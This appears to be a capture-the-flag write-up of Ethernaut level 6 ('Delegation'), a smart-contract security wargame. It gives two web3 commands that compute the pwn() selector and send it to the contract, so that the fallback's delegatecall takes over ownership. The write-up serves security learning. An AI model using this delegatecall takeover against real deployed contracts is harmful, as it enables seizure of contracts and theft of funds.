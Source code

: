 # Delegation

## Level 6

https://ethernaut.openzeppelin.com/level/0xBA97454449c10a0F04297022646E7750b8954EE8

## Solution:

Network: ploygon matic

instance: 0x3602d787c326907c4f6b2e607663a8e2c281fda5

tx: https://mumbai.polygonscan.com/tx/0x4276e29a0cc45601f5631978faa3b8f4df6fc74a877223c46e535dbdccc4b26f

## Steps:

First, we have to calculate the selector for the pwn() function.

> const selector = web3.eth.abi.encodeFunctionSignature("pwn()")

Second, we have to make the call to Delegation, but call pwn() as its function. This way, the fallback function is triggered, which then makes the delegate call to the function whose selector is in msg.data of the transaction. Thus, pwn() function of Delegate contract is called.

To make the call, we simply use sendTransaction like:

> await web3.eth.sendTransaction({from: player, to: contract.address, data: selector})
